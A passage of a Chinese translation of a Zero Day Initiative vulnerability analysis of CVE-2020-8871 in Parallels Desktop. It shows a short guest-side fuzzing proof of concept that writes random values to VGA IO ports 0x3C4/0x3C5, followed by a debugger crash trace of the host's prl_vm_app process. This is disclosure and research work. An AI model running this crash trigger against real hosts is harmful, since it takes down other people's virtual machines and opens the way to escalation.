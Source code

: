 > 原文链接: https://www.anquanke.com//post/id/206629 


# CVE-2020-8871：通过VGA设备在Parallels Desktop中提升权限


                                阅读量   
                                **236072**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者zerodayinitiative.com，文章来源：zerodayinitiative
                                <br>原文地址：[https://www.zerodayinitiative.com/blog/2020/5/20/cve-2020-8871-privilege-escalation-in-parallels-desktop-via-vga-device](https://www.zerodayinitiative.com/blog/2020/5/20/cve-2020-8871-privilege-escalation-in-parallels-desktop-via-vga-device)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t017e1fab6694da9ce9.jpg)](https://p2.ssl.qhimg.com/t017e1fab6694da9ce9.jpg)



## 0x00 绪论

Parallels Desktop for Mac是macOS上最流行的虚拟机软件之一，关于它的公开漏洞研究却寥寥无几。去年11月，Reno Robert（[CVE-2020-8871](https://www.zerodayinitiative.com/advisories/ZDI-20-292/)（ZDI-20-292）。本文将更深入地分析此漏洞及Parallels进行修补的代码。



## 0x01 初步分析

以下分析全部基于15.1.2版，客户虚拟机使用默认选项配置。

原始的报告很短，漏洞是通过简单fuzzing发现的。以下是POC中的相关代码：

```
while (1) `{` 
    port = random_range(0x3C4, 0x3C5+1); 
    value = random_range(0, 0xFFFF+1); 
    outw(value, port); 
  `}`
```

这就只是不停地随机往IO端口0x3C4和0x3C5写入字而已。如果在受影响的Parallels版本上运行POC，主机上的`prl_vm_app`进程会崩溃。系统中的每个虚拟机都有一个独立的`prl_vm_app`进程。

```
Process 619 stopped 
* thread #31, name = 'QThread', stop reason = EXC_BAD_ACCESS (code=2, address=0x158d28000) 
    frame #0: 0x0000000108c7a082 prl_vm_app`___lldb_unnamed_symbol5076$$prl_vm_app + 738 
prl_vm_app`___lldb_unnamed_symbol5076$$prl_vm_app: 
-&gt;  0x108c7a082 &lt;+738&gt;: mov    dword ptr [rsi], ecx 
    0x108c7a084 &lt;+740&gt;: cmp    r12d, 0x2 
    0x108c7a088 &lt;+744&gt;: jb     0x108c7a0a0               ; &lt;+768&gt; 
    0x108c7a08a &lt;+746&gt;: mov    dword ptr [rsi + 0x4], ecx 
Target 0: (prl_vm_app) stopped. 
(lldb) bt 
* thread #31, name = 'QThread', stop reason = EXC_BAD_ACCESS (code=2, address=0x158d28000) 
  * frame #0: 0x0000000108c7a082 prl_vm_app`___lldb_unnamed_symbol5076$$prl_vm_app + 738 
    frame #1: 0x0000000108c7ac8b prl_vm_app`___lldb_unnamed_symbol5078$$prl_vm_app + 907 
    frame #2: 0x0000000108c7dd52 prl_vm_app`___lldb_unnamed_symbol5093$$prl_vm_app + 1442 
    frame #3: 0x0000000108ce66dc prl_vm_app`___lldb_unnamed_symbol6282$$prl_vm_app + 636 
```